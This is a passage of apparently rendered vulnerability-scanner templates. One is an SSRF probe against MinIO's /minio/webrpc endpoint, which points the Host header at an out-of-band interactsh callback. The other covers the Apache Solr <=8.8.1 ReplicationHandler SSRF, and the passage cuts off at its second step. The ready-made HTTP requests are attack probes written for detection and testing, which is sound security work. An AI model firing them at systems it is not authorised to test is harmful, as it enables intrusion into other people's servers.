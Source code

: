 ```
POST /minio/webrpc HTTP/1.1
Host: {{interactsh-url}}
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Content-Length: 76

{"id":1,"jsonrpc":"2.0","params":{"token":  "Test"},"method":"web.LoginSTS"}

```

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

**Type - word**

- words
  1. We encountered an internal error

---

# Apache Solr <=8.8.1 - Server-Side Request Forgery

## Description

- Apache Solr versions 8.8.1 and prior contain a server-side request forgery vulnerability. The ReplicationHandler (normally registered at "/replication" under a Solr core) in Apache Solr has a "masterUrl" (also "leaderUrl" alias) parameter that is used to designate another ReplicationHandler on another Solr core to replicate index data into the local core. To prevent a SSRF vulnerability, Solr ought to check these parameters against a similar configuration it uses for the "shards" parameter.
- severity - critical
- tags - cve,cve2021,apache,solr,ssrf

## Requests

### Step - 1

```
GET /solr/admin/cores?wt=json HTTP/1.1
Host: {{Hostname}}
Accept-Language: en
Connection: close

```

### Step - 2
